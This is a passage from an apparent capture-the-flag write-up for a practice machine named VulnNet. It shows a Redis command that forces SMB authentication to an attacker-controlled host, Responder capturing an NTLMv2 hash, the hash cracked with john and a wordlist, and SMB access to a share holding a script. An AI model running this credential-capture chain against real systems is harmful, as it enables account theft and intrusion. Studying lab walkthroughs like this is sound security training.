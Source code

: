 <img width="1086" height="106" alt="image" src="https://github.com/user-attachments/assets/30437ddd-c49c-425c-8407-688916217194" />

<br>
<br>

```bash
vulnnet.thm:6379> eval "dofile('\\\\xx.xxx.x.xxx\\\\test')" 0
(error) ERR Error running script (call to f_...): @user_script:1: cannot open \xx.xxx.x.xxx\test: No such file or directory
```

<br>
<br>

```bash
vulnnet.thm:6379> CONFIG SET dir \\xx.xxx.x.xxx\share
(error) ERR Changing directory: Permission denied
```

<h4>Reponder</h4>

```bash
[SMB] NTLMv2-SSP Client   : ::ffff:xx.xxx.x.xxx
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:6892ced64ce981aa:76D09B9530D10553EF6ED...0390058004B0001001E00570049004E002D00360041005000370033004A0034005A0047004...0030002E003200300031002E0039002E003100330038000000000000000000
```


<h2>Hash Cracking</h2>

```bash
:~/VulnNetActive# nano hash
```

```bash
:~/VulnNetActive# john --format=netntlmv2 hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**************  (enterprise-security)
1g 0:00:00:06 DONE (2025-09-07 xx:xx) 0.1536g/s 616602p/s 616602c/s 616602C/s *****!****..*******
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

<h2>Invoke-PowerShellTcp.ps1</h2>

```bash
:~/VulnNetActive# smbclient \\\\xx.xxx.x.xxx\\Enterprise-Share -U enterprise-security@vulnnet.local
Password for [enterprise-security@vulnnet.local]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep  7 xx:xx:xx 2025
  ..                                  D        0  Mon Sep  7 xx:xx:xx 2025
  PurgeIrrelevantData_1826.ps1        A       69  Wed Feb 24 00:33:18 2021

		9558271 blocks of size 4096. 4994656 blocks available
```
